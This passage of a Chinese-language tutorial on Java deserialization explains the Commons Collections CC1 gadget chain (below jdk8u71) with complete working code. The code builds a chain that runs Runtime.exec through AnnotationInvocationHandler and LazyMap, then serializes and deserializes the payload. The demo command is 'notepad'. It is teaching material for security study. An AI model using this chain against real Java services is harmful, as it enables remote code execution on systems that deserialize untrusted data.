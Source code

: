 ```java

            // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
            ObjectInputStream in = new ObjectInputStream(bais);

            // 模拟远程的反序列化过程
            in.readObject();

            // 关闭ObjectInputStream输入流
            in.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

java1.8就把这个类修复了，无聊。。。。。

我们可以看一些yso的反序列化链子，把这个知识点进行串讲。

### CC1

jdk8u71以下。

```java
public class cc1 {
    public static void main(String[] args) throws Exception {
        //payload
        Transformer[] x = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"notepad"})
        };
        Transformer d = new ChainedTransformer(x);
        Map map = new HashMap();
        Map map1 = LazyMap.decorate(map, d);
        
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ct = cls.getDeclaredConstructor(Class.class, Map.class);
        ct.setAccessible(true);
        
        InvocationHandler handler = (InvocationHandler) ct.newInstance(Target.class, map1);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        Object o = ct.newInstance(Target.class, proxyMap);  //这样写也可handler = (InvocationHandler) ct.newInstance(Retention.class, proxyMap);

        //payload序列化写入文件，当作网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(o);  //如果用的后面那种，则把o换成handler

        //服务端反序列化payload读取
        FileInputStream f1 = new FileInputStream("payload.bin");
        ObjectInputStream f2 = new ObjectInputStream(f1);

        f2.readObject();

    }
}
```